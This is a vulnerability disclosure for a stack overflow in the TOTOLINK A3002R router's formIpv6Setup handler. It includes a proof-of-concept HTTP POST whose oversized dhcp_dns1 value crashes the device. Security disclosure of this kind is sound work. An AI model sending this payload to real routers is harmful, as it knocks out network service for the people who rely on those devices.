

# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3002R

Version:V1.1.1-B20200824.0128

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in TOTOLINK router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formIpv6Setup` function, `dhcp_dns1、dhcp_dns2、static_dns1、static_dns2、pppoe_dns2` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `dhcp_dns1、dhcp_dns2、static_dns1、static_dns2、pppoe_dns2` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `dhcp_dns1、dhcp_dns2、static_dns1、static_dns2、pppoe_dns2` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `dhcp_dns1` as **aaaaa......,** , and the router will crash, such as:

```http
POST /boafrm/formIpv6Setup HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1375
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/IPv6_Setup.htm

submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=2&pppUserName=pjqwudi&pppPassword=pjqwudi&pppPassword=pjqwudi&dnsMode_P=1&pppoe_dns1=&pppoe_dns2=&pppoeMtu=1492&static_ipv6=&static_gw=&static_dns1=&static_dns2=&static_mtu=1500&dhcp_ip=%3A%3A&pri_dns=%3A%3A&sec_dns=%3A%3A&dnsMode_D=0&dhcp_dns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dhcp_dns2=4.4.4.4&DhcpMtu=1500&PreType=0&Dhcp6s_PoolS=&Dhcp6s_PoolE
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
